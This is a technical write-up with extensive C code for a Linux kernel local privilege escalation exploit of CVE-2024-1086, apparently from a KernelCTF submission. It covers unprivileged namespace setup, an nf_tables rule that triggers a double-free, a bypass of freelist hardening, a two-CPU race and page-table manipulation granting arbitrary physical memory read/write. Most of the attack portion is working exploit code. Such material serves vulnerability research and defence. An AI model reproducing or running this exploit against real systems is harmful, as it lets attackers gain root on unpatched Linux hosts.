

# exploit

Original LPE PoC for CVE-2024-1086, tested on Linux KernelCTF lts-6.1.72 and mitigation-6.1. Successrate of 99.6% on LTS on local testing. 

## Requirements

As described in the vulnerability docs, the exploit requires nf_tables and unprivileged user namespaces to be available.

Caveats for this version of the exploit:
- Only works on QEMU VMs (because of a race-condition related to converting pages from order==4 to order==0)
- Requires at least 2 CPU cores to be present (because of the race condition above)
- Requires a maximum of 4GiB physical memory

The updated version is included in the seperate blogpost and Github repo.

## Multiprocessing

This exploit makes use of 2 processes, because of a race condition. 

In this version, there are 2 threads for Dirty Pagedirectory: the "target PFN write" thread (PMD side), and the "target page access" thread (PUD side). This is because the PUD page and PMD page are allocated in the seperate processes. It is possible to make this behaviour obsolete, but this was unknown at the time of submission.

The communication between the threads happen through an shared `struct shared_info` instance, mmap'd in `main()`. There are several status indicators in this struct:
- `mem_status`: an indicator of the memory scanning status (saying thread 1 should proceed or thread 2 should proceed)
- `lock_status`: an indicator of a CPU lock, used when syncing up the threads for the race condition.
- `flush_status`: obsolete indicator which was used for communication between the TLB flushing parent and child. Now, the TLB flushing function mmap's its own indicator, which is now thread safe.
- `exploit_status`: an indicator used for the foreground exploit thread which makes it look like the exploit process stopped when it is done, whilst the child actually keeps running by sleeping to avoid a kernel bug.

```c
#define SPINLOCK_NOSLEEP(cmp) while (cmp) { }

// syncs threads within 5ms diffs by calling both SYNC_CPU0() and SYNC_CPU1()
// allows CPU1 to be earlier and allows CPU0 to be earlier

#define SYNC_CPU0() do { \
		printf("[*] syncing cpu 0...\n"); \
		SPINLOCK_NOSLEEP(memdump_info->lock_status == LOCK_STAT_NONE); \
\
		memdump_info->lock_status = LOCK_STAT_0; \
		SPINLOCK_NOSLEEP(memdump_info->lock_status == LOCK_STAT_0); \
\
		memdump_info->lock_status = LOCK_STAT_NONE; \
 } while (0);

#define SYNC_CPU1() do { \
		printf("[*] syncing cpu 1...\n"); \
		memdump_info->lock_status = LOCK_STAT_1; \
		SPINLOCK_NOSLEEP(memdump_info->lock_status == LOCK_STAT_1); \
\
		memdump_info->lock_status = LOCK_STAT_1; \
 } while (0);
 ```

## Workflow - Setup

### Namespaces

Before we can exploit the vuln, we need to setup user namespaces so we can set up our own nft rules, and disable RPF (anti IP spoofing thing, which prevents us from traversing a specific IPv4 codepath to avoid kernel panics). The code for these procedures are straightforward but a lot of code, so I will not show it here.

```c
void setup_env()
{
    uid_t uid = getuid();
    gid_t gid = getgid();

	do_unshare();
	configure_uid_map(uid, gid);
	configure_interfaces();
	configure_nftables();
    clean_files();
}
```

### Nft rule triggering the bug

Before we can trigger the vuln, we need to set up an nft rule which returns the malicious verdict. To avoid false positives, we need to specify a unique filter so only our exploits' packet triggers the double-free. If we did not apply the filter, every IPv4 packet in the system would get double-freed. Our filter is arbitrary, and I chose for filtering for packets which have IPv4 header protocol == 69 && first 4 bytes "\x41\x41\x41\x41". I have not experienced false positives with this. 

```c
static void add_set_verdict(struct nftnl_rule *r, uint32_t val)
{
	struct nftnl_expr *e;

	e = nftnl_expr_alloc("immediate");
	if (e == NULL) {
		perror("expr immediate");
		exit(EXIT_FAILURE);
	}

	nftnl_expr_set_u32(e, NFTNL_EXPR_IMM_DREG, NFT_REG_VERDICT);
	nftnl_expr_set_u32(e, NFTNL_EXPR_IMM_VERDICT, val); // Set the verdict to 0x69

	nftnl_rule_add_expr(r, e);
}

static struct nftnl_rule *alloc_rule(unsigned char family, const char *table, const char *chain, unsigned char proto)
{
	struct nftnl_rule *r = NULL;

	r = nftnl_rule_alloc();
	if (r == NULL) {
		perror("rule alloc");
		exit(EXIT_FAILURE);
	}

	nftnl_rule_set_u32(r, NFTNL_RULE_FAMILY, family);
	nftnl_rule_set(r, NFTNL_RULE_TABLE, table);
	nftnl_rule_set(r, NFTNL_RULE_CHAIN, chain);

	// expect protocol to be `proto`
	add_payload(r, NFT_PAYLOAD_NETWORK_HEADER, NFT_REG_1, offsetof(struct iphdr, protocol), sizeof(unsigned char));
	add_cmp(r, NFT_REG_1, NFT_CMP_EQ, &proto, sizeof(unsigned char));

	// expect 4 first bytes of packet to be \x41
    add_payload(r, NFT_PAYLOAD_NETWORK_HEADER, NFT_REG_1, sizeof(struct iphdr), 4);
    add_cmp(r, NFT_REG_1, NFT_CMP_EQ, "\x41\x41\x41\x41", 4);


	// (NF_DROP | -((0xFFFF << 16) >> 16)) == 1, aka NF_ACCEPT (trigger double free)
	// (NF_DROP | -((0xFFF0 << 16) >> 16)) == 16
	add_set_verdict(r, 0xFFFF << 16);

	return r;
}
```

### Pre-allocating Dirty Pagedirectory PUDs

In order to use Dirty Pagedirectory we must register VMAs before we can allocate the pages and pagetables. Additionally, notice how we pre-allocate the PUD for the PMD double-alloc etc, so we do not allocate the PUD when we need to allocate the PMD.

These VMA address ranges are semi-arbitrary, as long as they align with their targetted pagetable entries.

```c
static void privesc_flh_bypass(struct shared_info *memdump_info)
{
	unsigned long long *pmd_area;
	void *_pud_area;
	void *pud_kernel_area;
	void *pud_data_area;
    // ... (more var declarations)

	// pre-allocate PUD for PMD
	mmap((void*)0x200000, 0x200000, PROT_READ | PROT_WRITE, MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
	*(unsigned long long*)0x200000 = 0xCAFEBABE;

	// pre-allocate VMA for PMD and PUD (not themself)
	pmd_area = mmap((void*)0x40000000, 0x200000, PROT_READ | PROT_WRITE, MAP_FIXED | MAP_SHARED | MAP_ANONYMOUS, -1, 0);  // shared bcs it may be used for cache flushing
	
	// these use different PTEs but the same PUD
	_pud_area = mmap((void*)0x8000000000, 0x400000, PROT_READ | PROT_WRITE, MAP_FIXED | MAP_SHARED | MAP_ANONYMOUS, -1, 0);
	pud_kernel_area = _pud_area;
	pud_data_area = _pud_area + 0x200000;

    // ... (more exploit code)
}
```

## Workflow - Double-free -> Dirty Pagedirectory

Before we proceed, please checkout the image below, describing the operations to set up Dirty Pagedirectory (PUD+PMD):



### Setup for `CONFIG_FREELIST_HARDENED` naive DF detection bypass

In order to bypass `CONFIG_FREELIST_HARDENED`'s naive double-free detection, we simply allocate an skb (remove from the freelist) before the double-free, which we free (append to the freelist) in between the double-free.

```c
static void privesc_flh_bypass(struct shared_info *memdump_info)
{
    // ... (var declarations)
	struct ip df_ip_header = {
		.ip_v = 4,
		.ip_hl = 5,
		.ip_tos = 0,
		.ip_len = 0xDEAD,
		.ip_id = 0xDEAD,
		.ip_off = 0xDEAD,
		.ip_ttl = 128,
		.ip_p = 69,
		.ip_src.s_addr = inet_addr("1.1.1.1"),
		.ip_dst.s_addr = inet_addr("255.255.255.255"),
	};
	int child_pid;

    // ... (setup)

	set_ipfrag_time(1);

	// ... (setup)

	pin_cpu(0);
	child_pid = fork();

	if (child_pid == 0) {
        // ... (more exploit stuff)
    } else {
#if CONFIG_FLC_BYPASS
		set_ipfrag_time(1);

		// will expire naturally after 1 second
		df_ip_header.ip_id = 0x1334;
		df_ip_header.ip_len = sizeof(struct ip)*2 + 8*2 + 8;
		df_ip_header.ip_off = ntohs((0 >> 3) | 0x2000);
		alloc_intermed_buf_hdr(8, &df_ip_header);

		// make sure df trigger packet doesn't get expired while waiting for skb5 to be freed
		set_ipfrag_time(999);
#endif
        // ... (more exploit stuff)
    }
    
    // ... (more exploit stuff)
}
```

### Double-free (free 1)

In order to trigger the double-free, we send the IPv4 packet which satisfies the filter. This will cause the first free of the double-free. Then, it will send the packet to an IPv4 fragment queue (IFQ), until 999 seconds have passed or until the queue is complete (which we will complete when the 2nd free happened). 

```c
static void privesc_flh_bypass(struct shared_info *memdump_info)
{
    // ... (var declarations)
	struct ip df_ip_header = {
		.ip_v = 4,
		.ip_hl = 5,
		.ip_tos = 0,
		.ip_len = 0xDEAD,
		.ip_id = 0xDEAD,
		.ip_off = 0xDEAD,
		.ip_ttl = 128,
		.ip_p = 69,
		.ip_src.s_addr = inet_addr("1.1.1.1"),
		.ip_dst.s_addr = inet_addr("255.255.255.255"),
	};
	int child_pid;

    // ... (setup)

	pin_cpu(0);
	child_pid = fork();

	if (child_pid == 0) {
        // ... (more exploit stuff)
    } else {
#if CONFIG_FLC_BYPASS
		set_ipfrag_time(1);

        // ... (create double-free evasion packet, which will be freed 1 sec from now)

		// make sure df trigger packet doesn't get expired while waiting for skb5 to be freed
		set_ipfrag_time(999);
#endif

		df_ip_header.ip_id = 0x1337;
		df_ip_header.ip_len = sizeof(struct ip)*2 + 32768 + 24;
		df_ip_header.ip_off = ntohs((0 >> 3) | 0x2000);  // wait for other fragments. 8 >> 3 to make it wait or so?
		trigger_double_free_hdr(32768 + 8, &df_ip_header);

        // ... (more exploit stuff)
    }
    
    // ... (more exploit stuff)
}
```

### Middle double-free obj free (DF detection evasion)

Now the first free happened, we need to do the free in the middle to prevent naive double-free detection. We do this by waiting 1000ms (+ 100ms buffer): the time we specified earlier with `set_ipfrag_time(1)`.

We also set the ipfrag_time for the double-free packet to be 999, which means it will not expire now (but 999 seconds from now).

```c
static void privesc_flh_bypass(struct shared_info *memdump_info)
{
    // ... (var declarations)
	struct ip df_ip_header = {
		.ip_v = 4,
		.ip_hl = 5,
		.ip_tos = 0,
		.ip_len = 0xDEAD,
		.ip_id = 0xDEAD,
		.ip_off = 0xDEAD,
		.ip_ttl = 128,
		.ip_p = 69,
		.ip_src.s_addr = inet_addr("1.1.1.1"),
		.ip_dst.s_addr = inet_addr("255.255.255.255"),
	};
	int child_pid;

    // ... (setup)

	pin_cpu(0);
	child_pid = fork();

	if (child_pid == 0) {
        // ... (more exploit stuff)
    } else {
		// ... (DF free 1)

#if CONFIG_FLC_BYPASS
		// reset timer since our other-CPU packet is expiring on 1 sec
		set_ipfrag_time(1);

		// wait for corruption bypass packet to expire
		// this may need to be longer or shorter, depending on WARNING() duration
		//sleep(2);
		usleep(1100 * 1000);
#endif

        // ... (more exploit stuff)
    }
    
    // ... (more exploit stuff)
}
```

### Double-free (free 2) + race condition + double-alloc

Now it's time to pull of the race condition for the 2nd free: 

1. sync both threads
2. CPU 0 thread allocate the packet with previous skb->head | CPU 1 thread frees this skb->head 
3. CPU 1 allocates double-alloc PMD page
4. CPU 0 packet expires after 1s
5. CPU 0 allocates double-alloc PUD page

For a full explanation of the technique, check the novel techniques document, which describes the order 4 -> order 0 conversion technique in detail.

Notice how we allocate hte PUD and PMD by writing to the address, since pagetables are allocated JIT: if we do not access the virtual address in it's bailywick, it will not be allocated. 


```c
static void privesc_flh_bypass(struct shared_info *memdump_info)
{
    // ... (var declarations)
	struct ip df_ip_header = {
		.ip_v = 4,
		.ip_hl = 5,
		.ip_tos = 0,
		.ip_len = 0xDEAD,
		.ip_id = 0xDEAD,
		.ip_off = 0xDEAD,
		.ip_ttl = 128,
		.ip_p = 69,
		.ip_src.s_addr = inet_addr("1.1.1.1"),
		.ip_dst.s_addr = inet_addr("255.255.255.255"),
	};
	int child_pid;

    // ... (setup)

	pin_cpu(0);
	child_pid = fork();

	if (child_pid == 0) {
		pin_cpu(1);

		SYNC_CPU1();

		// append to ip packet with fragment to free packet on *this* cpu
		// offset <<= 3, so divide by 8 aka >> 3 (this is so we have 3 bits for fragmentation flags)
		// setup ipfrag_time timer for fragment expiration / waiting for frags
		df_ip_header.ip_id = 0x1337;
		df_ip_header.ip_len = sizeof(struct ip)*2 + 32768 + 24;
		df_ip_header.ip_off = ntohs(((32768 + 8) >> 3) | 0x2000);
		
		// skb1->len gets overwritten by s->random() in set_freepointer(). need to discard queue with tricks circumventing skb1->len
		// causes end == offset in ip_frag_queue(). packet will be empty
		// remains running until after both frees, a.k.a. does not require sleep
		alloc_intermed_buf_hdr(0, &df_ip_header);
		
		pmd_area[0] = 0xDEADBEEF;

        // ... (more exploit stuff)
    } else {
		// ... (DF free 1 + mid free)

		SYNC_CPU0();

		// soft lock on cpu == too early
		// bad page (non-zero page refcount) == too late (missed warning() window), nearly did undetected double free

		//usleep(30 * 1000);  // env:qemu-debug,kernel:debug,fs:debian,redirect:stdout env:kernel-debug-v3,kernel:lts-6.1.72,fs:kernelctf,redirect:none
		usleep(20 * 1000); //  env:kernel-debug-v2,kernel:lts-6.1.72,fs:kernelctf,redirect:none env:kernelctf,kernel:lts-6.1.64,fs:debian,redirect:none
		// ^^^^ REVERT FOR KERNELCTF PROD ^^^^

		// alloc skb3, and wait 1 second for allocating next packet to give time to other thread for allocating pmd
		df_ip_header.ip_id = 0x1338;
		df_ip_header.ip_len = sizeof(struct ip) + 32768 + 16;
		df_ip_header.ip_off = ntohs((0 >> 3) | 0x2000); 
		alloc_intermed_buf_hdr(32768 + 8, &df_ip_header);

		// skb3 will be free'd
		usleep(1100 * 1000);

		// allocate overlapping PUD (overlaps with PMD)
		*(unsigned long long*)_pud_area = 0xCAFEBABE;

        // ... (more exploit stuff)
    }
    
    // ... (more exploit stuff)
}
```

## Workflow - Dirty Pagedirectory

Now we have access to the double-allocated PMD page and PUD page, we can do the fun stuff (unlimited read/write to any physical memory address).

### PMD write loop (redneck-engineered IPC)

In this version of the exploit Dirty Pagedirectory has to be split in 2 threads (because internally the pagetable pages differ). This means the target-address-write and target-address-dereference parts have to be split across threads. 

Therefore, IPC has to be implemented. Don't be afraid: it's just a struct in shared memory VMA with a few states in a while loop, kind of like a lock. Nothing to be scared about.

Here's the part with the PMD write, or put differently, the target-address-write loop. The other thread can write the target address to the shared struct, and this loop will change the target address to it.

`memdump_info->mem_status == MEM_STAT_DO_UPDATE` tells the loop to change the PMD area to a base of `memdump_info->iteration_base`. After it is done, it will change it to `memdump_info->mem_status == MEM_STAT_DO_IO`, letting the other thread know it can continue.

```c
static void privesc_flh_bypass(struct shared_info *memdump_info)
{
    // ... (var declarations)
	struct ip df_ip_header = {
		.ip_v = 4,
		.ip_hl = 5,
		.ip_tos = 0,
		.ip_len = 0xDEAD,
		.ip_id = 0xDEAD,
		.ip_off = 0xDEAD,
		.ip_ttl = 128,
		.ip_p = 69,
		.ip_src.s_addr = inet_addr("1.1.1.1"),
		.ip_dst.s_addr = inet_addr("255.255.255.255"),
	};
	int child_pid;

    // ... (setup)

	pin_cpu(0);
	child_pid = fork();

	if (child_pid == 0) {
		pin_cpu(1);

		// ... ()

		// pud will be allocated and populated
		SPINLOCK(memdump_info->mem_status == MEM_STAT_DO_IO);

		flush_tlb(memdump_info, pmd_area, 0x200000);

		//printf("[*] PTE for PUD page: %016llx\n", pmd_area[0]);
		printf("[*] PTE for PMD page: %016llx\n", *(unsigned long long*)pmd_area);

		// this supports physical memory of (CONFIG_PHYSICAL_START * 512) bytes, i.e. (0x1000000 * 512) = 8GiB, can upped if necessary by just looping the code on both threads
		for (unsigned short j=0; j < 512; j++)
			pmd_area[j] = (CONFIG_PHYSICAL_START * j) | 0x8000000000000867;
		
		// will deadlock when other process completes
		while (1) {
			memdump_info->mem_status = MEM_STAT_DO_IO;
			SPINLOCK(memdump_info->mem_status == MEM_STAT_DO_IO);

			// try an(other) iteration of 0x200000 kernel bytes
			PRINTF_VERBOSE("[*] setting physical address range to 0x%016llx - 0x%016llx\n", memdump_info->iteration_base, memdump_info->iteration_base + 0x200000);

			// set the pages for the other threads PUD data range to kernel memory
			for (unsigned short j=0; j < 512; j++)
				pmd_area[512 + j] = (memdump_info->iteration_base + 0x1000 * j) | 0x8000000000000867;
		}
    } else {
        // ... (more exploit stuff)
    }
}
```